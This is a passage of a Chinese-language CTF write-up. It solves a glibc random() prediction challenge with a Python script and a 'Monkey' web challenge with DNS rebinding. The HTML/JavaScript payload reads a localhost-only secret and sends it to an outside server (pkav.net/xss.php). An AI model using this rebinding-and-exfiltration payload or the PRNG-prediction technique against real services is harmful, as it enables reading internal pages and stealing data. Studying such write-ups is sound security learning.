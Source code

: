 ```
state[i] = state[i-3] + state[i-31]
return state[i] >> 1

```

根据这一思路，如果我们能得到连续的超过32个生成的随机数，就可以预测后面生成的数字。为了得到连续的随机数，使用requests.session来keep-alive。

在实际测试中，我发现有时候预测出来的结果会和实际得到的结果差1，不过没有找到规律，所以没有管他，直接多跑了几遍就出来了flag，脚本如下：

```
import requests
while 1:
    s = requests.session()
    l = []
    for i in range(50):
  l.append(int(s.get('http://202.120.7.202:8888/').content.split('<code')[0].strip(), 10))
    resp = s.get('http://202.120.7.202:8888/?go=1')
    l.append(int(resp.content.strip()[:-32], 10))
    print resp.content.strip()[-32:]
    url = 'http://202.120.7.202:8888/?'
    for i in range(5):
        index = len(l)
        r = (l[index-3]+l[index-31]) % 2147483648  # 2147483647
        l.append(r)
        url += 'check[]={}&'.format(r)
    resp = s.get(url)
    print resp.request.url
    print resp.content

```

0x01 Monkey(web)
=====

通过一个自己构造的页面来获取http://127.0.0.1:8080/secret页面的内容。

一开始想通过XSSI的思路来获取页面内容，不过只能得到Script Error错误，之后换了个思路，找到了https://bugzilla.mozilla.org/show_bug.cgi?id=1106687。

虽然带`.`的已经不能用了，但是还是可以利用这个思路来绕过。

我们先把自己的域名DNS TTL改成了10，然后提交一个页面http:// pkav.net:8080/，延迟60秒后读取http://pkav.net:8080/secret并把结果返回给远程服务器，在这段时间之内把域名的DNS记录修改为127.0.0.1，即可读取到http://127.0.0.1:8080/secret的内容。

打了两次没有成功，后来队友尝试了一下解析一下 pkav.net.刷新DNS缓存后成功了。

```
<html>
<script src="js/jquery-1.7.min.js"></script>
<script>
function getdata(){
    $.get('http://pkav.pkav.net:8080/secret',function(data){
        $.get('http://pkav.net/xss.php?xss='+data);
    });
}
function refresh(){
    $.get('http://pkav.pkav.net./');
}
setTimeout("refresh()",30000);
setTimeout("getdata()",100000);
</script>
</html>

```
